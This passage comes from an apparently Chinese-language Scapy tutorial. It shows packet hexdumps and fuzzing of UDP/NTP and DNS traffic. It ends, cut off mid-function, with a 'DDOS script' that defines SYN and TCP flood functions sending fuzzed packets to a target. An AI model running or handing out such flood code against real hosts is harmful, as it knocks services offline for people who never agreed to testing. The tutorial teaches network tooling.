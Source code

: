 最后，要恢复原始配置，使用 ```conf.route.resync()```.


---

## 其他有用的东西

### 以十六进制形式转储二进制数据

一个非常有用的函数是[hexdump()](https://pypi.python.org/pypi/hexdump)，它可以用来显示一个或多个使用hexdump格式的数据包：

```
from scapy.all import *
str(IP())
a = Ether()/IP(dst="www.google.com")/TCP()/"GET /index.html HTTP/1.1"
hexdump(a)
```

运行这个代码会得到：

```sh
$ sudo python example_hexdump.py
WARNING: No route found for IPv6 destination :: (no default route?)
0000   00 90 A9 A3 F1 46 A4 17  31 E9 B3 27 08 00 45 00   .....F..1..'..E.
0010   00 40 00 01 00 00 40 06  8D 0F C0 A8 01 72 4A 7D   .@....@......rJ}
0020   E1 10 00 14 00 50 00 00  00 00 00 00 00 00 50 02   .....P........P.
0030   20 00 FA 15 00 00 47 45  54 20 2F 69 6E 64 65 78    .....GET /index
0040   2E 68 74 6D 6C 20 48 54  54 50 2F 31 2E 31         .html HTTP/1.1
```



###  fuzzing

Scapy的[fuzz()](http://www.secdev.org/projects/scapy/doc/usage.html#fuzzing)方法允许我们建立fuzzing模板(通过随机变更默认值并循环发送）。

比如说，我们有一个标准的IP层和被fuzz的UDP和NTP层。下面的程序中，UDP目的端口被版本号为4的NTP重载。

```python
>>> send(IP(dst="192.168.1.114")/fuzz(UDP()/NTP(version=4)), loop=1)
................^C
Sent 16 packets.
```

这是一个DNS fuzzer:

```python
>>> send(IP(dst='192.168.1.114')/UDP()/fuzz(DNS()), inter=1,loop=1)
```

我们可以使用fuzzer来做一些更加有趣的事情。比如说，构建一个[DDOS](http://en.wikipedia.org/wiki/Denial-of-service_attack)脚本。这是我的respository里面的一个非常简单的例子：

```python
import threading
import socket
from scapy.all import *

def synFlood(target, port):
    ip = fuzz(IP(dst=target))
    syn = fuzz(TCP(dport=port, flags='S'))
    send(ip/syn, verbose=0)

def tcpFlood(target, port):
    ip = fuzz(IP(dst=target))
    tcp = fuzz(TCP(dport=port))
    send(ip/tcp, verbose=0)

def udpFlood(target, port):
    ip = fuzz(IP(dst=target))
```